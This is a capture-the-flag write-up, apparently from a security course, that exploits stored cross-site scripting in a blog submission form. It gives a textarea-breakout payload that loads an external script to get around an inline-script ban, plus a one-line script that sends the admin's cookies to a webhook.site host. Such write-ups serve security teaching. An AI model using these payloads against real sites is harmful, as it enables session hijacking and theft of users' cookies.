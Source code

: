 Challenge `Read my lips: No more scripts` writeup

- Vulnerability: What type of vulnerability is being exploited
  - _Cross-site scripting (XSS)_
- Where: Where is the vulnerability present
  - _Blog post submission form (content field)_
- Impact: What results of exploiting this vulnerability
  - _Allows to run arbitrary JavaScript code in the victim's browser by injecting crafted payloads in the content field of the blog post submission form, making it possible to redirect the victim's cookies to a controlled server_

NOTE: Taking advantage of the fact that the admin needs to approve the blog posts before they are published, it is possible to craft a payload that redirects his cookies to a controlled server (set up using `Webhook.site` at `https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909`). Opening the post for approval will show its title and content in the admin's browser. Since the content is shown inside a `textarea` tag, it is possible to inject JavaScript code by closing the tag and adding a script after it. However, the blog post submission form is protected, forbidding inlining scripts. This can be bypassed by loading the script from an external source.

## Steps to reproduce

1. Access the vulnerable application homepage at `/` endpoint.

2. Submit a blog post with an arbitrary title and content.

3. In the under-approval blog post page, inject the following payload executing the script loaded from an external source:
```html
</textarea><script src="http://web.tecnico.ulisboa.pt/ist195584/ssof/script.js"></script><textarea>
```

3. Create a script that redirects the admin's cookies to a controlled server. The script used in this case is available at `http://web.tecnico.ulisboa.pt/ist195584/ssof/script.js` and is loaded from the `script` tag injected in the content field of the blog post submission form. The content of the script is the following:
```javascript
window.location="https://webhook.site/c4fb7495-1912-4963-afd0-93a0676c6909/?cookie="+document.cookie;
```

4. Submit the post for review and when the admin opens the blog post for approval, the script is executed in his browser, redirecting his cookies to the controlled server and logging them under the `cookie` query parameter in the server's dashboard. The flag is available at the cookie value of the `SECRET` cookie.